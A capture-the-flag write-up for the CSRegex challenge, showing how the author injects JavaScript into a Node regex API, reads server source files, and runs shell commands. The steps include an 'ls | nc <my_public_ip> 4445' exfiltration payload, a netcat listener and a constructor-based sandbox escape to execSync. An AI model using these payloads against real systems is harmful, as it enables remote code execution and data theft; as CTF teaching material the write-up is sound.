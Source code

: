 # CSRegex

Points: 100

I looked at the URL first. The format was:
```
GET http://chal.cybersecurityrumble.de:9876/api/regex/<pattern>/<flags>/<input>
```

Each parameter was Base64 encoded. Based on the information from the page, it
looks like `eval()` is being used. Eventually I found this worked:
```
' + process.cwd() + '
```

Unfortunately, doing the usual `require('fs')` trick does not work because it
says `require` is not defined. Not sure why.

After trying other things for a few hours, I eventually found this:
```
'+Object.getOwnPropertyNames(this)+'
```

This gave me:
```json
{ "result": "simpleFs" }
```

Proceeding on this thread:
```
'+Object.getOwnPropertyNames(this.simpleFs)+'
-> { "result": "length,prototype,exists,readFile,readFileSync,writeFile,writeFileSync,appendFile,appendFileSync,name" }

'+this.simpleFs+'
-> { "result": "class SimpleFs {\n static exists(path) {\n return new Promise((res, rej) => {\n fs.stat(path, (err, stats) => {\n if (err) return rej(err);\n if (!stats.isFile()) return rej('Not a file');\n return res();\n });\n });\n }\n\n static readFile(path) {\n return new Promise((res, rej) => {\n if (!fs.existsSync(path)) return rej('File not found');\n fs.readFile(path, { encoding: 'utf-8' }, (err, data) => {\n if (err) return rej(err);\n return res(data);\n });\n });\n }\n\n static readFileSync(path) {\n if (!fs.existsSync(path)) return rej('File not found');\n try {\n return fs.readFileSync(path, { encoding: 'utf-8' });\n } catch (ex) {\n return false;\n }\n }\n\n static writeFile(path, contents) {\n return new Promise((res, rej) => {\n if (fs.existsSync(path)) return rej('File already exists');\n fs.writeFile(path, contents, { encoding: 'utf-8' }, (err) => {\n if (err) return rej(err);\n return res();\n })\n });\n }\n\n static writeFileSync(path, contents) {\n if (fs.existsSync(path)) return rej('File already exists');\n try {\n fs.writeFileSync(path, contents, { encoding: 'utf-8' });\n return true;\n } catch (ex) {\n return false;\n }\n }\n\n static appendFile(path, contents) {\n return new Promise((res, rej) => {\n if (!fs.existsSync(path)) return rej('File not found');\n fs.appendFile(path, contents, { encoding: 'utf-8' }, (err) => {\n if (err) return rej(err);\n return res();\n });\n });\n }\n\n static appendFileSync(path, contents) {\n if (!fs.existsSync(path)) return rej('File not found');\n try {\n fs.appendFileSync(path, contents, { encoding: 'utf-8' });\n return true;\n } catch (ex) {\n return false;\n }\n }\n}" }

'+process.argv+'
-> { "result": "/usr/bin/node,/app/index.js" }

'+this.simpleFs.readFileSync('/app/index.js')+'
-> { "result": "var express = require('express');\nvar cors = require('cors');\n\nvar app = express();\nvar api = require('./api')\n\napp.use(cors());\n\nprocess.on('unhandledRejection', (reason, promise) => {\n console.log('Unhandled Rejection at:', reason.stack || reason)\n})\n\n\nprocess.on('uncaughtException', function (err) {\n console.error(err.stack);\n});\n\napp.use((req, res, next) => {\n res.header('Server', 'dunno');\n res.header('X-Powered-By', 'love <3');\n res.header('Level', (9000 + Math.random() * 1000).toFixed(0));\n next();\n});\n\n//Static\napp.use(express.static('dist'));\n\n//rest\napp.use('/api', api);\n\n//Troll\napp.use('/admin', function (req, res) {\n res.status(401).send();\n});\napp.use('/phpMyAdmin', function (req, res) {\n res.status(402).send();\n});\napp.use('/test.php', function (req, res) {\n res.status(403).send();\n});\n\n//Custom 404\napp.get('*', function (req, res) {\n res.status(404).send('notfound.jpeg');\n});\n\napp.listen(8080, () => {\n console.log(`Listening...`)\n});" }
```

Note this line: `var api = require('./api')`
```
'+this.simpleFs.readFileSync('/app/index.js')+'
-> { "result": "var express = require('express');\nvar router = express.Router();\nvar RegexEr = require('./regexer')\n\nrouter.get('/regex/:pattern/:flags/:input', (req, res) => {\n var params = {\n pattern: req.params.pattern,\n input: req.params.input,\n flags: req.params.flags\n };\n try {\n params.pattern = Buffer.from(req.params.pattern, 'base64').toString();\n params.input = Buffer.from(req.params.input, 'base64').toString().replace(/\\n/gm, \"\").trim();\n params.flags = Buffer.from(req.params.flags, 'base64').toString();\n RegexEr.process(params.pattern, params.flags, params.input)\n .then((result) => res.status(200).send({result: result}))\n .catch((err) => res.status(400).send({ error: err.message }));\n\n } catch (ex) {\n console.error(ex);\n res.status(400).send(JSON.stringify(ex));\n }\n\n});\n\nmodule.exports = router;" }

'+this.simpleFs.readFileSync('/app/regexer.js')+'
-> { "result": "const sfs = require('./simple-fs');\n\nconst LOGFILE = 'requests.log';\n\nclass RegexEr {\n constructor() {\n this.simpleFs = sfs;\n }\n process(pattern, flags, input) {\n return new Promise((res, rej) => {\n try {\n var str = `var _result = '${input}'.match(/${pattern}/${flags}); return _result;`;\n this.addLogLine(LOGFILE, str + '\\n');\n console.log(str);\n var fun = new Function(str);\n var result = fun.call(this);\n res(result);\n } catch (ex) {\n rej(ex);\n }\n });\n }\n addLogLine(logFile, content) {\n this.simpleFs.appendFile(logFile, content);\n }\n}\n\nconst REGEXER_INSTANCE = new RegexEr();\n\nmodule.exports = REGEXER_INSTANCE;" }

'+this.simpleFs.readFileSync('/app/leftover.js')+'
-> { "result": "class Utility {\n require(resource) {\n return new Promise((res, rej)=>{\n try {\n var module = require(resource);\n return res(module); \n } catch(ex) {\n return rej(ex);\n }\n });\n }\n isRunningOnWindows() {\n return process.platform.indexOf('win' === 0);\n }\n getUrlHost(url) {\n try{\n return new URL(url).hostname;\n } catch(ex){\n return null;\n }\n }\n}\n\nLEGACY_UTILS = new Utility();\n\nmodule.exports = LEGACY_UTILS;" }
```

The `require` function looks very interesting. If I can `require` the `fs`
module and call `readdirSync`, then I could figure out where the flag is.
Unfortunately, it returns a Promise object. I spent a few hours trying to figure
out how to resolve a promise synchronously and it eventually realized that I
was probably impossible. JS is stupid.

Finally, I tried to an exploit that did not require synchronous execution.
Instead of trying to make it return the string I wanted in the request, I would
make it run `ls` and send the output to a socket on my computer.

So next I made my router forward port 4445. Next I set up a listener on my
computer:
```
$ nc -lvp 4445
```

Then using my public IP, I used the following payload:
```
' + LEGACY_UTILS.require('child_process').then((cp) => { cp.exec ('ls | nc <my_public_ip> 4445') }, null) + '
```

I got output on my listener!
```
$ nc -lvp 4445
Listening on [0.0.0.0] (family 0, port 4445)
Connection from 193.10.78.34.bc.googleusercontent.com 44997 received!
api.js
csregex
dist
dockerfile
index.js
leftover.js
node_modules
package-lock.json
package.json
regexer.js
requests.log
simple-fs.js
```

Finally:
```
'+this.simpleFs.readFileSync('/app/dockerfile')+'
-> { "result": "from mhart/alpine-node:12\nWORKDIR /app\nCOPY . .\nRUN apk update\nRUN apk upgrade\nRUN apk add bash\nRUN apk add curl\nRUN npm install\nRUN chown root:root .\nRUN chmod -R 755 .\nRUN adduser -D -g '' server\nRUN touch requests.log\nRUN chown server:server requests.log\nRUN chmod +s /usr/bin/curl\nRUN echo 'CSR{r363x_15_fun_r363x_15_l0v3}' > /root/flaggerino_flaggeroni.toxt\nRUN chmod 640 /root/flaggerino_flaggeroni.toxt\nRUN chmod 744 /root\nUSER server\nEXPOSE 8080\nCMD [ \"node\", \"index.js\"]null" }
```

---

Note: somehow this person solved it
[like this](https://gist.github.com/po6ix/b5885264ee0128e8f14bc293396081b5).
I don't understand the JavaScript here but it works:
```
'+constructor.constructor("return process")().mainModule.require("child_process").execSync('cat * | grep CSR')+'
```
